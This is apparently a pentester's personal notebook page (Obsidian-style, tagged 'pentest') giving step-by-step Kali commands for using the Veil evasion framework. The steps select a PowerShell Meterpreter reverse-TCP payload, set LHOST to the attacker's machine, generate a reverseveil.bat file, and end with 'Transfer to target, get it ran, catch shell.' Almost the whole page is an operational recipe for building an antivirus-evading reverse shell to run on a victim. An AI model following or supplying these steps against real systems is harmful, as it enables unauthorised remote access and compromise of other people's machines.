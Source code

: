 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo apt install veil
```

```bash - kali
veil
```

Next through all the prompts if setting up for the first time.

If told to, run:
```bash - kali
/usr/share/veil/config/setup.sh --force --silent
```

```bash - kali
use 1
```

```bash - kali
list
```

example: `powershell/meterpreter/rev_tcp.py`

```bash - kali
use 22
```

```bash - kali
set LHOST $KALI
```

```bash - kali
options
```

```bash - kali
generate
```

```bash - kali
reverseveil
```

```bash - kali
cp /var/lib/veil/output/source/reverseveil.bat .
```

[[APON/7._Tools/Metasploit#Meterpreter Listener 1 Liner]]

Transfer to target, get it ran, catch shell.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
